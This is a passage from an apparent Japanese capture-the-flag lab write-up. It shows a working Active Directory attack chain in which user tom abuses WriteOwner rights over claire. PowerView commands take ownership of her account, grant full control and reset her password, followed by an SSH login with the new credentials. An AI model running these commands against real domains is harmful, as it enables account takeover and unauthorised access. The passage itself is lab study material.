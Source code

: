 ## tom -> claire

tomは**WriteOwner**の権限をclaireに対して持ってる。

![tom_priv](https://user-images.githubusercontent.com/85237728/149606075-736fe964-aea7-4bd0-a42d-a7ab5e606799.png)

claireのオーナーをtomに設定：

```
PS C:\Users\tom> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

tomに、claireのことをGenericAllできるように権限を与える：

```
PS C:\Users\tom> Add-DomainObjectAcl -PrincipalIdentity tom -TargetIdentity claire -Rights All
```

これでtomはclaireのパスワードを再設定できる：

```
PS C:\Users\tom> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\tom> Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

このclaireのクリデンシャルでclaireにssh接続：

```
┌──(kali㉿kali)-[~]
└─$ sshpass -p 'Password123!' ssh cliare@10.10.10.77
```

